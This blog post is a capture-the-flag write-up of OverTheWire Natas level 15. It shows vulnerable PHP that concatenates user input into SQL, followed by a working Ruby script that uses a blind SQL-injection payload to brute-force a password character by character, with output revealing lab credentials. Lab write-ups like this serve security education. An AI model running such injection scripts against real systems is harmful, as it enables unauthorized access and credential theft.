 ```yaml
---
title: "OverTheWire Natas Level 15"
date: "2012-11-14T06:29:00-05:00"
comments: true
highlight: "true"
categories:
 - overthewire
 - wargames
 - natas
 - php
 - sqlinjection
 - hacking
---
```


Up until now, none of the OverTheWire Natas challenges really gave me that much of an issue. This one however, took me a couple hours to complete. Level 15 is a fun blind sql-injection vulnerability. 

<!-- more -->

It starts out with a username check dialog, which pretty much only gives you a binary value as to if a username exists or not.

{{% figure class="img-responsive" src="/img/natas15_1.png" %}}

I looked at the source code, and couldn't see any way to inject some SQL to get it to retrieve the password for me. 

```
<html> 
<head><link rel="stylesheet" type="text/css" href="http://www.overthewire.org/wargames/natas/level.css"></head> 
<body> 
<h1>natas15</h1> 
<div id="content"> 
<? 

/* 
CREATE TABLE `users` ( 
  `username` varchar(64) DEFAULT NULL, 
  `password` varchar(64) DEFAULT NULL 
); 
*/ 

if(array_key_exists("username", $_REQUEST)) { 
    $link = mysql_connect('localhost', 'natas15', '<censored>'); 
    mysql_select_db('natas15', $link); 
     
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\""; 
    if(array_key_exists("debug", $_GET)) { 
        echo "Executing query: $query<br>"; 
    } 

    $res = mysql_query($query, $link); 
    if($res) { 
    if(mysql_num_rows($res) > 0) { 
        echo "This user exists.<br>"; 
    } else { 
        echo "This user doesn't exist.<br>"; 
    } 
    } else { 
        echo "Error in query.<br>"; 
    } 

    mysql_close($link); 
} else { 
?> 

<form action="index.php" method="POST"> 
Username: <input name="username"><br> 
<input type="submit" value="Check existence" /> 
</form> 
<? } ?> 
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div> 
</div> 
</body> 
</html> 
```

I did notice though, that it would verify that a row was returned, so I could inject SQL to brute-force the password. Assuming that the password was 32 digits long (like the previous ones), this could take some time however, since the character set was uppercase, lowercase, and digits. That's up to 62 attempts per digit of the password. I started doing this manually to verify that this was a possibility. With the "debug" flag on, you can see the query, and that the first digit of the password is not "b".

{{% figure class="img-responsive" src="/img/natas15_1.png" %}}

I cycled through manually all the lowercase and upper case letters. Once I got partially through the numbers, I got a successful hit! This means that the password starts with a "3".

{{% figure class="img-responsive" src="/img/natas15_1.png" %}}

The next step for me, was to automate this process. I decided to write some ruby to accomplish it. This code seems to do the job: 

```
require 'uri'
require 'net/http'

url = URI.parse("http://natas15.natas.labs.overthewire.org/index.php")
http = Net::HTTP.new(url.host, url.port)
chars = ('a'..'z').to_a + ('A'..'Z').to_a + ('0'..'9').to_a
password = ""
found = false

# 64 was selected, since the password field is a varchar(64)
# Most likely, since all other passwords were 32 digits long, it'll be that
(1..64).each do |i|
 chars.each do |c| 
  found = false
  request = Net::HTTP::Post.new(url.request_uri)
  request.basic_auth("natas15", "m2azll7JH6HS8Ay3SOjG3AGGlDGTJSTV")
  query = 'natas16" AND SUBSTRING(password, ' + i.to_s + ', 1) LIKE BINARY "' + c
  request.set_form_data({"username" => query})
  response = http.request(request)

  if response.body.include?("This user exists")
   password += c
   found = true
   puts "Current pass: #{password}"
   break
  end
 end
 # If no letter/number was found, it's fairly safe to assume it's done
 break if !found
end

```

The output shows: 

```
mandreko$ ruby natas15.rb
Current pass: 3
Current pass: 3V
Current pass: 3Vf
Current pass: 3VfC
Current pass: 3VfCz
Current pass: 3VfCzg
Current pass: 3VfCzga
Current pass: 3VfCzgaW
Current pass: 3VfCzgaWj
Current pass: 3VfCzgaWjE
Current pass: 3VfCzgaWjEA
Current pass: 3VfCzgaWjEAc
Current pass: 3VfCzgaWjEAcm
Current pass: 3VfCzgaWjEAcmC
Current pass: 3VfCzgaWjEAcmCQ
Current pass: 3VfCzgaWjEAcmCQp
Current pass: 3VfCzgaWjEAcmCQph
Current pass: 3VfCzgaWjEAcmCQphi
Current pass: 3VfCzgaWjEAcmCQphiE
Current pass: 3VfCzgaWjEAcmCQphiEP
Current pass: 3VfCzgaWjEAcmCQphiEPo
Current pass: 3VfCzgaWjEAcmCQphiEPoX
Current pass: 3VfCzgaWjEAcmCQphiEPoXi
Current pass: 3VfCzgaWjEAcmCQphiEPoXi9
Current pass: 3VfCzgaWjEAcmCQphiEPoXi9H
Current pass: 3VfCzgaWjEAcmCQphiEPoXi9Ht
Current pass: 3VfCzgaWjEAcmCQphiEPoXi9Htl
Current pass: 3VfCzgaWjEAcmCQphiEPoXi9Htlm
Current pass: 3VfCzgaWjEAcmCQphiEPoXi9HtlmV
Current pass: 3VfCzgaWjEAcmCQphiEPoXi9HtlmVr
Current pass: 3VfCzgaWjEAcmCQphiEPoXi9HtlmVr3
Current pass: 3VfCzgaWjEAcmCQphiEPoXi9HtlmVr3L
```

And there you go, the password for level 16 shows up as the last line before it quits. 

